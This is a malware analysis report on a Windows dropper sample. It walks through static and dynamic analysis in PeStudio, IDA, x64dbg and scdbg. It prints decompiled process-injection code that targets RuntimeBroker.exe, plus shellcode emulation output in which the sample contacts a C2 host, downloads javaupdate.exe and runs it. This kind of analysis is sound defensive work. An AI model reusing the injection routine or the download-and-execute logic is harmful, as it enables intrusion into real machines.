 # Dropper.DownloadAndRunEXE.exe

## Identification:

**FileName:** Dropper.DownloadAndRunEXE.exe

**SHA256:** f40fd89b764f2c952de772d9cec995929112b29d3dcfe15c8cdbff93efc2431d

**FileSize:** 905216 (bytes)

<br>

## Analysis:

The analysis on the sample was started with static analysis by loading it in PeStudio tool. First the sections were checked, where the section names were normal and entropy was also found to be normal as shown below. 

<image src="../Images/Dropper.DownloadAndRunEXE.exe1.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >

After that, the imports API used by this sample were checked, where interesting APIs relating to Process Injection were found which are listed below.

    CreateToolhelp32Snapshot
    Process32First
    Process32Next
    OpenProcess
    VirtualAllocEx
    WriteProcessMemory
    CreateRemoteThread

The sample was then loaded in IDA for static code analysis. Using the above identified import APIs as reference, the code of this sample were explored.

    __int64 sub_401785()
    {
      PROCESSENTRY32 pe; // [rsp+20h] [rbp-60h] BYREF
      HANDLE hSnapshot; // [rsp+150h] [rbp+D0h]
      DWORD th32ProcessID; // [rsp+15Ch] [rbp+DCh]
    
      th32ProcessID = -1;
      hSnapshot = CreateToolhelp32Snapshot(2u, 0);
      if ( hSnapshot == (HANDLE)-1i64 )
        return 0i64;
      pe.dwSize = 304;
      if ( Process32First(hSnapshot, &pe) )
      {
        do
        {
          if ( !strcmp(pe.szExeFile, "RuntimeBroker.exe") && th32ProcessID > pe.th32ProcessID )
            th32ProcessID = pe.th32ProcessID;
        }
        while ( Process32Next(hSnapshot, &pe) );
        CloseHandle(hSnapshot);
        return th32ProcessID;
      }
      else
      {
        CloseHandle(hSnapshot);
        return 0i64;
      }
    }

First from this piece of code disassembled using IDA as shown above, it can be seen that this sample will take snapshot of all the running process using **CreateToolhelp32Snapshot** API. Then, it will enumerate among those captured process using **Process32First** and **Process32Next** APIs till it found the 'RuntimeBroker.exe' From this code, it can be concluded that it will enumerate all the running processes to find the 'RuntimeBroker.exe' process in order to inject something into that process.

    __int64 __fastcall sub_4015B4(DWORD a1)
    {
      __int64 v1; // rcx
      void *v2; // rsp
      _BYTE v4[32]; // [rsp+0h] [rbp-80h] BYREF
      char v5[480]; // [rsp+40h] [rbp-40h] BYREF
      HANDLE RemoteThread; // [rsp+220h] [rbp+1A0h]
      LPVOID lpBaseAddress; // [rsp+228h] [rbp+1A8h]
      HANDLE hProcess; // [rsp+230h] [rbp+1B0h]
      LPCVOID lpBuffer; // [rsp+238h] [rbp+1B8h]
      __int64 v10; // [rsp+240h] [rbp+1C0h]
      SIZE_T nSize; // [rsp+248h] [rbp+1C8h]
    
      qmemcpy(&v4[64], byte_4B3008, 0x1D0ui64);
      v1 = byte_4B3008[464];
      v4[528] = v1;
      nSize = 465i64;
      v10 = 464i64;
      v2 = alloca(sub_40D560(v1, &byte_4B3008[465], 465i64, 0i64));
      lpBuffer = v5;
      sub_401560(v5, 465i64, v5);
      hProcess = OpenProcess(0x1F0FFFu, 0, a1);
      lpBaseAddress = VirtualAllocEx(hProcess, 0i64, 0x1D1ui64, 0x3000u, 0x40u);
      WriteProcessMemory(hProcess, lpBaseAddress, lpBuffer, nSize, 0i64);
      RemoteThread = CreateRemoteThread(hProcess, 0i64, 0i64, (LPTHREAD_START_ROUTINE)lpBaseAddress, 0i64, 0, 0i64);
      CloseHandle(hProcess);
      return 0i64;
    }

From the above piece of disassembled code from IDA, it can be seen that the sample will first try to get the handle to the 'RuntimeBroker.exe' process  using **OpenProcess** API. Using that handle, the sample can inject something into that process. For this, the sample will allocate some space in that remote process of 'RuntimeBroker.exe' using **VirtualAllocEx** and then write its payload using **WriteProcessMemory** API. Finally, it will execute the injected payload using the **CreateRemoteThread** API.

Lets now analyze it dynamically through debugging and try to extract the payload. For this, the sample was loaded in x64dbg. In this process injection technique, this sample will write its payload into 'RuntimeBroker.exe' using **WriteProcessMemory** API. The 2nd parameter of this API will point to the base address to which data is written, i.e., where the shellcode is written.

In X64dbg, the second parameter of **WriteProcessMemory** API can be seen where the rcx value is being moved to r8. The rcx should point to base address where data is written which is being saved to r8.

<image src="../Images/Dropper.DownloadAndRunEXE.exe2.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >

Following the rcx value in dump will show the possible shellcode being written in the remote process. The dump is shown below.

<image src="../Images/Dropper.DownloadAndRunEXE.exe3.png" caption="" alt="" height="" width="" position="center" command="fit" option="" class="img-fluid" title="" >

The above suspected shellcode dump was then selected and saved to a file as shellcode.text.

Now the shellcode was decoded using scdbg tool with the command.

`scdbg /f shellcode.txt -s -1`

    Loaded 3a0 bytes from file shellcode.txt  
    Detected straight hex encoding input format converting...  
    Initialization Complete..  
    Max Steps: -1  
    Using base offset: 0x401000  
      
    4010a4 LoadLibraryA(wininet)  
    4010b2 InternetOpenA(wininet)  
    4010cb InternetConnectA(server: burn.ec2-13-7-109-121-ubuntu-2004.local, port: 443, )  
    4010e3 HttpOpenRequestA()  
    4010fc InternetSetOptionA(h=4893, opt=1f, buf=12fdf4, blen=4)  
    40110a HttpSendRequestA()  
    401139 CreateFileA(javaupdate.exe) = 4  
    401155 InternetReadFile(4893, buf: 12faf4, size: 300)  
    40117c CloseHandle(4)  
    401186 WinExec(javaupdate.exe)  
    40118f ExitProcess(0)  
      
    Stepcount 5043493

From the output, interesting information were found:
- First, it will load wininet library to carry out network activities.
- The shellcode will reach to its C2 burn[.]ec2-13-7-109-121-ubuntu-2004[.]local over port 443 using **InternetConnet** API and request and download a file named 'javaupdate.exe'.
- Then using **WinExec** API, it will execute the downloaded 'javaupdate.exe'.
